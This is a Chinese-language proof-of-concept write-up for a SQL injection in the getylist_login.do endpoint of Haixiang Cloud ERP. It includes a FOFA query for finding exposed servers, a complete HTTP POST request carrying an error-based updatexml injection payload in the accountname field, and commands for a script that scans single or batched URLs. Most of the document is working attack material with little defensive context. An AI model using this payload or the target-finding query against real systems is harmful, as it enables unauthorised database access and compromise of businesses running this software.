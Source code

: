 # 海翔ERP getylist_login.do SQL注入漏洞

### 1.漏洞描述

海翔云ERP,由成都海翔软件有限公司自主研发，拥有完全知识产权。 云ERP为企业提供 营销 + 财务 + 仓储 + 物流 整体解决方案;云ERP致力于在互联网背景下，为商贸公司提供企业级整体应用解决方案;云ERP更注重提供丰富的移动端应用，推动企业在互联网时代的经营升级

海翔云ERP getylist_login 接口处存在SQL注入漏洞，恶意攻击者可能会利用该漏洞获取服务器敏感信息，最终导致服务器失陷。

### 2.fofa语法

```
body="checkMacWaitingSecond"
```

### 3.漏洞复现

```
POST /getylist_login.do HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
 
accountname=test' and (updatexml(1,concat(0x7e,(select md5(123456)),0x7e),1));--
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832101346-4f28a7a2-3059-4b10-b63c-fd4b2073f5a4.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```

